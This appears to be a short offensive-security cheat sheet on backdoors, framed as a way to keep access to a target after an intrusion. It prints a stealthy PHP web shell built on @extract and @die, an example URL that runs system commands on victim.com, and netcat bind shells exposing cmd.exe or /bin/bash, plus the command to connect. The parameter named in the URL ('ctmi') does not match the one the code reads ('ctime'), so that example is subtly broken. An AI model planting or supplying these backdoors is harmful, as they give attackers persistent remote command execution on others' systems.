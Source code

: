 Backdoors
======
Backdoors are a very convenient way to connect to your target and maintain access after an intrusion.

PHP Extract Backdoor
======
Stealthy Backdoor with @extract and @die
```php
<?php
    @extract($_REQUEST);
    @die($ctime($atime));
```

Exploit this way
```
http://victim.com/backdoor.php?ctmi=system&atime=ls -la
```

Netcat Backdoor
======
Simple Netcat Backdoor
```
// Windows
nc -l -p 1234 -e cmd.exe

//Linux
nc -l -p 1234 -e /bin/bash
```

Connect using
```
nc xxx.xxx.xxx.xxx 1234
```


